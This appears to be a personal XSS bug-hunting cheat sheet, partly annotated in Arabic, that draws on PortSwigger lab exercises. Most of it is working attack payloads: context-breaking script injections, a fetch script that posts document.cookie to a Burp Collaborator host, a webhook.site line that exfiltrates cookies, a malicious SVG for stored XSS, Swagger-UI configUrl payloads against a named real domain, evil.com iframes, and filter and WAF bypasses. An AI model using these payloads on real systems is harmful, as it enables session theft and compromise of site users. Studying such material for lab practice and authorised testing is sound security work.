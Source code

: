 # Hunting

# XSS:

**lab1:**

in search bar : habiba

src code:

<h1>0 search results for “habiba”</h1>

payload:

- take from begin of my search to end
    
    habiba”</h1> <svg onload = confirm()> <!—
    

**lab2:**

in search bar : habiba

src code:

var searchterms = “habiba”;

payload:

habiba”; alert();//

**lab3(encoded angle brackets):**

src code:

…. name = search value = “habiba”>

payload:

habiba” onclick = “alert()

lab4:

**DOM XSS in `document.write` sink using source `location.search`** 

open inspect and search for the word

1. **Exploiting cross-site scripting to steal cookies**

```
<script>
fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```

// BURP-COLLABORATOR-SUBDOMAIN بستبدله ب domain of collaborator

1. **Stored XSS using SVG file “in upload photos or files”**
    - file.svg

```
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
  <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
  <script type="text/javascript">
    alert("XSS by BHARAT");
  </script>
</svg>
```

1. payloads for /swagger-ui or /DOC XSS

[https://developers.autosense-cloud.com/swagger-ui/](https://developers.autosense-cloud.com/swagger-ui/)?

configUrl=data:text/html;base64, ewoidXJsIjoiaHR0cHM6Ly9zdGFuZ

GluZy1zYWxOLnN1cmdlLnNoL3Rlc3QueWFtbCIKfQ==

https://VULNERABLE_JAMF/classicapi/doc/?

configUrl=data:text/html;base64, ewoidXJsIjoiaHR0cHM6Ly9zdGFuZ

GluZy1zYWxOLnN1cmdlLnNoL3Rlc3QueWFtbCIKfQ==

[https://developers.autosense-cloud.com/swagger-ui/](https://developers.autosense-cloud.com/swagger-ui/)?configUrl=https://jumpy-floor.surge.sh/test.json 

[https://VULNERABLE_JAMF/classicapi/doc/?configUrl=https://jumpy-floor.surge.sh/test.json](https://VULNERABLE_JAMF/classicapi/doc/?configUrl=https://jumpy-floor.surge.sh/test.json) 

1. Payloads
- alert()
- confirm()
- prompt()
- write()
- print()
- “habiba”+alert(1)+”habiba”
- javascript: alert(1)
- <img src=”javascript: alert(1)”>
- <iframe src=”javascript: alert(1)”>
- <svg onload = alert(1)>
- onload alert(1)
- blabla’<h1> <svg onload=confirm()> <!—
- blabla” onclick = “alert()
- <img/src/onerror=.1|alert(document.domain)>
- "><img+id%3D%26%23×101%3B+src%3Dx+onerror%3D%26%23×101%3B%3Balert(document.domain)%3B>
- %22%20%2C%20internalSearchTerm%3A%20%5B"broook"%5D.map%28alert%29%20%2C%20numOfSearchResultsReturned%3A%20%22b
DECODED : " , internalSearchTerm: ["broook"].map(alert) , numOfSearchResultsReturned: "b
- blabla’; alert();//
- <script>alert(document.cookie)</script>
- }}})</script><script>alert(1)</script>
- ‘”><script>alert(document.cookie)</script>
- “><script>alert(‘<img src=”[https://webhook.site/abcded-asa-daasasada-asdaad-adad?c='+document.cookie+'](https://webhook.site/abcded-asa-daasasada-asdaad-adad?c=%27%2Bdocument.cookie%2B%27) ”/>’);</script> //
- “><script>alert(document.cookie);</script> //
- ‘;</script><script>prompt(1);</script>;//
- `"><script>alert("XSS Test");</script><"`
- `=d1bvs%3c%2fscript%3e%3cscript%3ealert(`XSS`)%3c%2fscript%3ec579g`
- لو الأنا بكتبه بيترفع فى الرابط بحقن ب :
- javascript: alert(1)
    - اول ما الاقى رابط ثانوى او مسار فى اللينك بشيله و بحقن ب :
    https://0a9800ed0439ab938256790300320079.web-security-academy.net/feedback?returnPath=javascript: alert(1)
- javascript: alert(1) —> encode () in URL

1. DOM XSS in JQuery:
    
    <iframe src="https://YOUR-LAB-ID.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
    
    —>write in html file and change highlighted with link
    
2. HTML injection:
    
    payloads:
    
    <h1></h1>
    
    <u></u>
    
    `<img src=x onload = confirm()>`
    
    `<iframe src= https://evil.com><iframe>`
    
    `<a href=https://www.evil.com> click here </a>`
    
    places : 
    
    support section in site
    
3. bypass WAF:
    
    add header —> Contect-Encoding: WAFBYPASS
    
4. <a> and <iframe> tags accept javascript:alert()
    
     <a href= “javascript: alert(1)”>test</a>
    
    <iframe src= “javascript:alert(1)”></iframe>
    
5. angular:
    
    any payload related to angular will execute in <ng-app>
        like: `{{$on.constructor('alert(1)')()}}`
    
6. apply links:
    
    test if it check only “http” or “https” in url only or check all url
    
7. to prevent damage page with stord xss:
use —> console.log() instead of alert()
8. uni code :
    
    url encode “<” = %3c 
    
    uni code “<” = \u003c 
    
    hex code “<” = \x3c
    

14.

in console write :

eval(”alert(document.cookie)”)

or

eval(”ale”+’rt(document.cookie)’)

1. 

```
<><img src=1 onerror=alert(1)>
```

In an attempt to prevent XSS, the website uses the JavaScript `replace()`
 function to encode angle brackets. However, when the first argument is a
 string, the function only replaces the first occurrence. We exploit 
this vulnerability by simply including an extra set of angle brackets at
 the beginning of the comment. These angle brackets will be encoded, but
 any subsequent angle brackets will be unaffected, enabling us to 
effectively bypass the filter and inject HTML.